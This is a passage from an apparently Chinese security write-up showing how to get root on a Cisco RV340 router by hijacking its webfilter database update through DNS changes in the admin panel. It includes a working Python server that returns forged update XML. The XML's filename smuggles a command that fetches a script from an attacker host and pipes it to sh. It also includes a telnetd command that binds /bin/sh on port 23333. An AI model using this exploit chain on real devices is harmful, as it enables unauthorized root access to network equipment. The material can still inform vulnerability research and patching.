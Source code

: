 第二种改DNS  
的方法，只能在登录RV340  
的后台之后才能使用，RV340  
的web  
管理界面提供了一个DNS local database  
的功能，可以设置域名解析，  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0mSRTxbY7fsoLUFViaxk1nhecKMzXMDhfDq2fQ8yPvHA6EpiaMQN9v7lk1vykjuylRicFCpGNOIOhOw/640?wx_fmt=png "")  
  
由于RV340  
更新webfilter database  
需要重启，而我们后台所做的配置是running config  
，重启之后配置的域名解析会失效，所以还需要把配置的信息设置成startup config  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0mSRTxbY7fsoLUFViaxk1nhnbuib8cjObNicnvwvCzyF6fh4Dpt2JfDoib52FZBRdoRrhbrrLJU8uflQ/640?wx_fmt=png "")  
  
需要两台攻击机，一台服务器上会响应恶意的xml  
文件，部署恶意的shell脚本，一台服务器上放格式正确的Webfilter  
数据库文件，在文件名和xml文件filename标签里插入恶意的shell语句。  
```
from wsgiref.util import request_urifrom simple_http_server import *import simple_http_server.server as serverimport requestsfilename = "full_bcdb_rep_1m_8.334.bin"payload = "full_bcdb_rep_1m_8.334`curl${IFS}192.168.1.127|sh`.bin"# download reverse_shell.sh@request_map('/',method=["POST"])def index_ctroller_function():    xmldata = '''    <?xml version="1.0" encoding="UTF-8" ?>    <?BrightCloud version=bcap/1.1?>    <bcap>        <seqnum>1</seqnum>        <status>200</status>        <statusmsg>OK</statusmsg>        <response>        <status>200</status>        <statusmsg>OK</statusmsg>        <filename>%s</filename>        <checksum>896bb64c7dd8661535b5cbe55fe7c17e</checksum>        <updateMajorVersion>8</updateMajorVersion>        <updateMinorVersion>334</updateMinorVersion>        <targetchecksum>896bb64c7dd8661535b5cbe55fe7c17e</targetchecksum>        </response>    </bcap>    '''%payload    return xmldata@request_map("/",method=['GET'])def reverseshell_ctroller_function():    return StaticFile("./opentelnet")def main(*args):    server.start(port=80)if __name__ == "__main__":    main()
```  
  
open telnet  
的脚本如下：  
```
/usr/sbin/telnetd -l /bin/sh -p23333
```  
  
开启web服务：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0mSRTxbY7fsoLUFViaxk1nh7DKFiccOdoxFc5mqh2XoQhsfQN37uZSzImQicwJ8zdRMWlHN6oPn5r6g/640?wx_fmt=png "")  
  
另一台服务器上，把命令写入到数据库文件的文件名中，然后开启web  
服务：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0mSRTxbY7fsoLUFViaxk1nhnQUvSBibsZVyjJd9orFdayg7MlRaEvbfOlpiar2OKiacDiaRZcqrpANTJg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT0mSRTxbY7fsoLUFViaxk1nhl3e3ccG5ZGrs6Ije6sViaVKBBDh3t37dtgh3wyEH5nU5dt1z0VnJuuA/640?wx_fmt=png "")  
  
telnet  
远程登录获取rootshell  
：  
  